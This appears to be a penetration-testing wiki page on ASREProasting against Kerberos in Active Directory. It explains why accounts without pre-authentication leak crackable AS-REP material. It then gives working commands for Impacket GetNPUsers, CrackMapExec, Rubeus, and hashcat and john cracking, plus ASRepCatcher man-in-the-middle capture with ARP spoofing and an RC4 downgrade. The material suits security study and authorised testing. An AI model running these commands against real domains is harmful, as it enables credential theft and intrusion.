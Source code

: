 # ASREProast

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to **ASREProast**).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. Technically, when asking the KDC (Key Distribution Center) for a TGT (Ticket Granting Ticket), the requesting user needs to validate pre-authentication by sending a timestamp encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. Once validated, the TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

While this technique can possibly allow to retrieve a user's credentials, the TGT obtained in the `KRB_AS_REP` messages are encrypted cannot be used without knowledge of the account's password.

## Practice

{% hint style="info" %}
While this attack can be carried out without any prior foothold (domain user credentials), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) (Python) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```

The [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit is a good alternative to the tools mentioned above.
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```
{% endtab %}
{% endtabs %}



Depending on the output format used (`hashcat` or `john`), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try [cracking the hashes](../credentials/cracking.md).

```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

### ASREProast MitM

Another way to conduct AS-REP roasting, without having to know the vulnerable users, would be to have a man-in-the-middle position on the network and catch AS-REPs. [ASrepCatcher](https://github.com/Yaxxine7/ASrepCatcher) (Python) can be used for that purpose. It also has the ability to force client workstations to use RC4 (weaker encryption type) by altering the Kerberos negotiation process. The tool natively uses ARP spoofing (which can be disabled if needed).

```bash
# Proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher.py relay -dc $DC_IP --keep-spoofing

# Disables ARP spoofing (the MitM must be obtained with other means)
ASRepCatcher.py relay -dc $DC_IP --disable-spoofing

# Passively listen for AS-REP packets, no packet alteration
ASrepCatcher.py listen
```

## Resources

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" %}

{% embed url="https://blog.harmj0y.net/activedirectory/roasting-as-reps/" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx" %}

{% embed url="https://en.hackndo.com/kerberos" %}
